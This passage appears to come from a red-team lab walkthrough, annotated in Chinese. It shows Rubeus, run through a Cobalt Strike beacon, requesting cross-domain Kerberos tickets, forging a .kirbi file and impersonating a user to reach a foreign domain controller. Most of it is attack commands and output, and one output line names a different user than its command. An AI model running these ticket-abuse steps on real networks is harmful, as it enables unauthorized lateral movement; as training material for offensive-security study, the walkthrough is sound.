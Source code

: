 [*] Action: Ask TGS
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/subsidiary.external'
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFMT [...snip...] 5BTA==

  ServiceName           :  krbtgt/SUBSIDIARY.EXTERNAL
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:02:06 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwardable
  KeyType               :  rc4-hmac
  Base64(key)           :  O7B/KR3+DvhlpY6qwrTlHg==
```


根据上面的tgt，请求外域的cifs服务的tgs
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:cifs/ad.subsidiary.external /domain:ad.subsidiary.external /dc:ad.subsidiary.external /ticket:doIFMT[...snip...]5BTA== /nowrap

[*] Action: Ask TGS
[*] Using domain controller: ad.subsidiary.external (10.10.14.55)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/ad.subsidiary.external'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFsD [...snip...] JuYWw=

  ServiceName           :  cifs/ad.subsidiary.external
  ServiceRealm          :  SUBSIDIARY.EXTERNAL
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:08:52 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  HPmz324aewyZ6El4LGoVEksQEvkI3eoSiy7gAlgEXbU=
```

根据生成的tgs，合成```subsidiary.kirbi```
```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("doIFiD [...snip...] 5hbA=="))
```

导入session，现在可以访问外域的DC
```
beacon> make_token DEV\jadams FakePass
[+] Impersonated DEV\bfarmer
